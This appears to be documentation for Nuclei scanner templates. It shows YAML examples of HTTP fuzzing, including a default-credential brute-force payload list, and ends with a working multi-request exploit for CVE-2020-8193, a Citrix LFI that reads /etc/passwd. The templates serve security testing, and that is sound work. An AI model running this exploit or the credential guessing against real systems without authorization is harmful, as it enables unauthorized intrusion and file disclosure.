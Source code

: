 ### HTTP Intruder fuzzing

This template makes a defined POST request in RAW format along with in template defined payloads running `clusterbomb` intruder and checking for string match against response.


```yaml
id: multiple-raw-example
info:
  name: Test RAW Template
  author: pdteam
  severity: info

# HTTP Intruder fuzzing with in template payload support. 

requests:

  - raw:
      - |
        POST /?username=§username§&paramb=§password§ HTTP/1.1
        User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_5)
        Host: {{Hostname}}
        another_header: {{base64('§password§')}}
        Accept: */*
        body=test

    payloads:
      username:
        - admin

      password:
        - admin
        - guest
        - password
        - test
        - 12345
        - 123456

    attack: clusterbomb # Available: sniper,pitchfork,clusterbomb

    matchers:
      - type: word
        words:
          - "Test is test matcher text"
```

### Fuzzing multiple requests 

This template makes a defined POST request in RAW format along with wordlist based payloads running `clusterbomb` intruder and checking for string match against response.

```yaml
id: multiple-raw-example
info:
  name: Test RAW Template
  author: pdteam
  severity: info

requests:

# HTTP Intruder fuzzing wordlist based payload support. 

  - raw:
      - |
        POST /?param_a=§param_a§&paramb=§param_b§ HTTP/1.1
        User-Agent: §param_a§
        Host: {{Hostname}}
        another_header: {{base64('§param_b§')}}
        Accept: */*

        admin=test

      - |
        DELETE / HTTP/1.1
        User-Agent: nuclei
        Host: {{Hostname}}

        {{sha256('§param_a§')}} 

      - |
        PUT / HTTP/1.1
        Host: {{Hostname}}

        {{html_escape('§param_a§')}} + {{hex_encode('§param_b§'))}}

    payloads:
      param_a: payloads/prams.txt
      param_b: payloads/paths.txt

    attack: clusterbomb # Available: sniper,pitchfork,clusterbomb

    matchers:
      - type: word
        words:
          - "Test is test matcher text"
```


### Authenticated fuzzing

This template makes a subsequent HTTP requests with defined requests maintaining sessions between each requests and checking for string match against response.

```yaml
id: multiple-raw-example
info:
  name: Test RAW Template
  author: pdteam
  severity: info

requests:
  - raw:
      - |
        GET / HTTP/1.1
        Host: {{Hostname}}
        Origin: {{BaseURL}}
        Cookie: session=12312321sdasdsa
        User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_4) AppleWebKit/537.36 (KHTML, like Gecko)
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
        Accept-Language: en-US,en;q=0.9

      - |
        POST /testing HTTP/1.1
        Host: {{Hostname}}
        Origin: {{BaseURL}}
        Connection: close
        User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_4) AppleWebKit/537.36 (KHTML, like Gecko)
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
        Accept-Language: en-US,en;q=0.9

        testing=parameter

    cookie-reuse: true # Cookie-reuse maintain the session between all request like browser. 
    matchers:
      - type: word
        words:
          - "Test is test matcher text"
```

### Dynamic variable support

This template makes a subsequent HTTP requests maintaining sessions between each requests, dynamically extracting data from one request and reusing them into another request using variable name and checking for string match against response.

```yaml
id: CVE-2020-8193

info:
  name: Citrix unauthenticated LFI
  author: pdteam
  severity: high
  reference: https://github.com/jas502n/CVE-2020-8193

requests:
  - raw:
      - |
        POST /pcidss/report?type=allprofiles&sid=loginchallengeresponse1requestbody&username=nsroot&set=1 HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
        Content-Type: application/xml
        X-NITRO-USER: xpyZxwy6
        X-NITRO-PASS: xWXHUJ56

        <appfwprofile><login></login></appfwprofile>

      - |
        GET /menu/ss?sid=nsroot&username=nsroot&force_setup=1 HTTP/1.1
        Host: {{Hostname}}
        User-Agent: python-requests/2.24.0
        Accept: */*
        Connection: close

      - |
        GET /menu/neo HTTP/1.1
        Host: {{Hostname}}
        User-Agent: python-requests/2.24.0
        Accept: */*
        Connection: close

      - |
        GET /menu/stc HTTP/1.1
        Host: {{Hostname}}
        User-Agent: python-requests/2.24.0
        Accept: */*
        Connection: close

      - |
        POST /pcidss/report?type=allprofiles&sid=loginchallengeresponse1requestbody&username=nsroot&set=1 HTTP/1.1
        Host: {{Hostname}}
        User-Agent: python-requests/2.24.0
        Accept: */*
        Connection: close
        Content-Type: application/xml
        X-NITRO-USER: oY39DXzQ
        X-NITRO-PASS: ZuU9Y9c1
        rand_key: §randkey§

        <appfwprofile><login></login></appfwprofile>

      - |
        POST /rapi/filedownload?filter=path:%2Fetc%2Fpasswd HTTP/1.1
        Host: {{Hostname}}
        User-Agent: python-requests/2.24.0
        Accept: */*
        Connection: close
        Content-Type: application/xml
        X-NITRO-USER: oY39DXzQ
        X-NITRO-PASS: ZuU9Y9c1
        rand_key: §randkey§

        <clipermission></clipermission>

    cookie-reuse: true # Using cookie-reuse to maintain session between each request, same as browser.

    extractors:
      - type: regex
        name: randkey # Variable name
        part: body
        internal: true
        regex:
          - "(?m)[0-9]{3,10}\\.[0-9]+"

    matchers:
      - type: regex
        regex:
          - "root:[x*]:0:0:"
        part: body
```
